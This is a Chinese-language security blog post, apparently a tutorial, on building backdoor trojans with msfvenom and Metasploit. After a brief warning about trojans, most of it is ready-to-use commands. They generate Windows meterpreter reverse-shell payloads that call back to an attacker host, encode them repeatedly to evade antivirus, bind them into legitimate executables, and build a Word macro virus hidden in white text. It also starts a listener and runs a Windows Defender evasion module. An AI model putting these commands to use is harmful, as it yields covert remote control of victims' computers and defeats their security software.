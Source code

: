 ```yaml
---
title: 后门木马之Msfvenom
author: Pandaho
date: 2021-07-12 20:00:00 
categories: [Project] 
tags: [security]
image: /assets/img/security-Msfvenom/cover.png
---
```




*在这个互联网世界，人们已经离不开软件的使用，而很多非安全从业者其安全意识的薄弱让木马软件如洪水一般地泛滥，使得大量个人电脑沦落为肉鸡，虽现在杀毒引擎已能查杀市面上大部分主流的病毒，但免杀技术也是在不断发展，所以个人对其主机上使用的软件安全还是要有一定的审查能力，避免不知不觉就成为他人的玩偶。*




## **原理**

**Msfvenom：**

主要用于生成后门和软件捆绑后门,可利用msfvenom生成木马程序，在本地开启监听，并在目标机上执行，使目标机沦为肉鸡。

**MSF渗透攻击流程：**

1、扫描目标机系统，寻找可用漏洞。

2、选择并配置一个漏洞利用模块。

3、选择并配置一个攻击载荷模块。

4、选择一个编码技术，用来绕过杀毒软件的查杀。

5、进行渗透攻击。

病毒通常会做一些有害的或者恶性的动作。在病毒代码中实现这个功能的部分叫做“有效负载”（payload）。payload可以实现任何运行在受害者环境中的程序所能做的事情，并且能够执行动作包括破坏文件删除文件，向病毒的作者或者任意的接收者发送敏感信息，以及提供通向被感染计算机的后门。      **———摘自《决战恶意代码》**

payloads模块，也叫有效载荷或有效负载，也就是我们常说的shellcode。在MSF中为我们提供了大量的实用payloads。

**编码器：**正常的MSFVenom生成的有效负载很容易被大多数杀毒软件或防火墙检测到。MSFVenom提供了一种称为编码器的功能，可以用来绕过防火墙和防病毒软件。您可以利用其中的一些AV旁路和WAF旁路。使用-e标志将其与任何编码器名称一起使用

**宏病毒：**宏病毒是一种寄存在文档或模板的宏中的计算机病毒，存在于数据文件或模板中（字处理文档、数据表格、数据库、演示文档等），使用宏语言编写，利用宏语言的功能将自己寄生到其他数据文档，一旦打开带有宏病毒的文档，宏就会被执行，宏病毒就会被激活，转移到计算机上，驻留在Normal模板上。在此之后所有自动保存的文档都会“感染”上这种宏病毒，如果其他用户打开了感染病毒的文档，宏病毒又会转移到他的计算机上。



## **方法**

**生成木马**

```shell
msfvenom -a（指定架构，选择x86，也能在64位下运行） X86 -platform（指定运行平台）  windows -p（指定攻击载荷） windows/meterpreter/reverse_tcp LHOST=X.X.X.X LPORT=（端口） -b（去掉坏字符）“\x00”(x表示16进制，00表示空字符) -e（指定编码器，主要为了逃过杀毒，免杀） x86/shikata_ga_nai -i(编码次数) 10 （文件随着编码次数变大） -f（指定输出格式） exe -o /var/xxxxxx
```

**植入软件后门**

```shell
msfvenom -a（指定架构，选择x86，也能在64位下运行） X86 --platform（指定运行平台）  windows -p（指定攻击载荷） windows/meterpreter/reverse_tcp LHOST=X.X.X.X LPORT=（端口） -b（去掉坏字符）“\x00”(x表示16进制，00表示空字符) -e（指定编码器，主要为了逃过杀毒，免杀） x86/shikata_ga_nai -i(编码次数) 10 -x   xxxx.exe  -f（指定输出格式） exe -o /var/xxxxxx
```

**多层编译**

```shell
msfvenom -a（指定架构，选择x86，也能在64位下运行） X86 -platform（指定运行平台）  windows -p（指定攻击载荷） windows/meterpreter/reverse_tcp LHOST=X.X.X.X LPORT=（端口） -b（去掉坏字符）“\x00”(x表示16进制，00表示空字符) -e（指定编码器，主要为了逃过杀毒，免杀） x86/shikata_ga_nai -i(编码次数) 10 （文件随着编码次数变大） | msfvenom -a（指定架构，选择x86，也能在64位下运行） X86 -platform（指定运行平台）  windows -e x86/alpha_upper -I 10 -f（指定输出格式） exe -o /var/xxxxxx
```

**制作宏病毒**

```shell
msfvenom -a X86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.42.1 LPORT=4444  -e x86/shikata_ga_nai -i 10  -f  vba-exe
```

生成Marco code，创建个宏后将code copy到宏内，然后将将剩下的宏代码copy到word中，字体颜色设置成与背景一样的白色等进行隐藏。



**开启MSF监听**

```shell
msfdb run  #运行msf
use exploit/multi/handler   #加载监听模块
show options   #显示参数
set payload windows/meterpreter/reverse_tcp  #设置攻击载荷
set LHOST 和 LPORT   #设置ip和端口
RUN  #运行
help  #查看命令
在目标机（windows）可 ps 查询 pid号，通过 taskkill /pid  ?  杀死进程
```

我们还可以使用其他模块，在进入msfdb的时候我们会发现evasion存在多个模块

```shell
search evasion  #搜索全部模块
use  evasion/windows/windows_defender_exe  
该模块生成的木马文件，可修改filename

   Name      Current Setting  Required  Description  
   ----      ---------------  --------  -----------
   FILENAME  Kydqcp.exe       yes       Filename for the evasive file (default: random)
   
Run   #运行生成木马
[*] Compiled executable size: 3584
[+] Kydqcp.exe stored at /root/.msf4/local/Kydqcp.exe
```

![附图](/assets/img/security-Msfvenom/1.png)



## 参考来源

学神科技

[基础msfvenom](https://www.bilibili.com/read/cv7159256/)  
[原理](http://www.91ri.org/5105.html)  
[英文详解](https://thedarksource.com/msfvenom-cheat-sheet-create-metasploit-payloads/)  
[宏病毒](https://zhuanlan.zhihu.com/p/222086692)
